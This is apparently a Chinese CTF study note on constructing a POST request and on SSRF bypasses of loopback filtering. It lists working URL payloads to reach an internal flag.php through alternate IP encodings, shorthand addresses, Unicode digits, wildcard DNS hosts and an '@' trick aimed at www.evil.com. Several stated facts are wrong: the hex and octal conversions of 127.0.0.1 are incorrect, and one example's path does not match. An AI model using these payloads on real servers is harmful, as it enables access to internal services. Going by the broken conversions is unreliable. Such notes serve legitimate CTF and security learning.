 ## 2.post提交

需要保留的头部信息：

```
POST /name.php HTTP/1.1
Host: 172.250.250.4
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

name=jianjian
```

（构造代码）

BurpSuite抓包进行两次URL编码然后上传



# 5.SSRF回环地址的绕过

http://127.0.0.1/flag.php被过滤

将127.0.0.1转换为其他进制

八进制 ：177000000001或点分式：0177.0000.0000.0001

十六进制0x4F000001

十进制2130706433

```
url=http://0/flag.php 
url=http://127.1/flag.php 
url=http://0x7f.0.0.1/flag.php
url=http://0177.0.0.1/flag.php
```

http(s)://sudo.cc

> A记录：A 记录（Address Record）是一种 DNS 记录类型，用于将域名映射到一个 IPv4 地址。通过设置 A 记录，你可以将特定的域名直接指向一个具体的 IP 地址，从而使用户能够通过这个域名访问相应的服务器或网络资源。
>
> http(s)://sudo.cc就是一个A记录为127.0.0.1的

其他绕过127的方法
如果目标代码限制访问的域名只能为 http://www.xxx.com，那么我们可以采用HTTP基本身份认证的方式绕过。即@：http://www.xxx.com@www.evil.com http://www.evil.com/

http://xip.io，当访问这个服务的任意子域名的时候，都会重定向到这个子域名，如访问：http://127.0.0.1.xip.io/flag.php时，实际访问的是http://127.0.0.1/1.php 像这样的网址还有 http://nip.io，http://sslip.io

短网址目前基本都需要登录使用，如缩我，https://4m.cn/

各种指向127.0.0.1的地址

```
http://localhost/         # localhost就是代指127.0.0.1
http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
http://[::]:80/           # 在liunx下可用，window测试了下不行
http://127。0。0。1/       # 用中文句号绕过
http://①②⑦.⓪.⓪.①
http://127.1/
http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1

```
